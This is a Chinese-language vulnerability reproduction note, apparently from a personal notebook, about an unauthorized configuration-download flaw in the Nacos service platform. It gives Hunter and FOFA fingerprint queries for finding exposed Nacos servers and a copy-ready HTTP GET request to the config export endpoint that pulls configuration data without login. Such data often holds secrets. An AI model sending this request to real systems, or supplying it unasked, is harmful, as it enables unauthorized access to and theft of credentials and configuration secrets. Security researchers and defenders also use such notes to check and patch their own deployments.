 # Nacos存在未授权下载配置信息漏洞

一、漏洞简介

<font style="color:rgb(63, 63, 63);">Nacos 是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。致力于帮助发现、配置和管理微服务。Nacos 提供了一组简单易用的特性集，可以快速实现动态服务发现、服务配置、服务元数据及流量管理。Nacos存在未授权下载配置信息漏洞 </font>

# <font style="color:rgb(51, 51, 51);">二、影响版本</font>
+ <font style="color:rgba(0, 0, 0, 0.9);">Nacos </font>

# <font style="color:rgba(0, 0, 0, 0.9);">三、资产测绘</font>
+ hunter`app.name="Nacos"`
+ fofa `icon_hash="13942501"`
+ 特征

![1706098466504-aee1dd64-8194-4680-a095-f9ac7f516937.png](./img/RWufMeRanf6G5Rfy/1706098466504-aee1dd64-8194-4680-a095-f9ac7f516937-533247.png)

# 四、漏洞复现
```plain
GET /v1/cs/configs?export=true&group=&tenant=&appName=&ids=&dataId= HTTP/1.1
Host: 
If-Modified-Since: Wed, 03 Apr 2024 06:25:07 GMT
Priority: u=0, i
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
```

![1727070243107-46f80892-97ca-4e7c-a545-a85b1ea42e60.png](./img/RWufMeRanf6G5Rfy/1727070243107-46f80892-97ca-4e7c-a545-a85b1ea42e60-575442.png)![1727070251522-dba0dbcc-9311-4c06-954c-8b1fff3951a7.png](./img/RWufMeRanf6G5Rfy/1727070251522-dba0dbcc-9311-4c06-954c-8b1fff3951a7-884665.png)



> 更新: 2024-10-28 15:59:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ssg3fe6cnv42gbrw>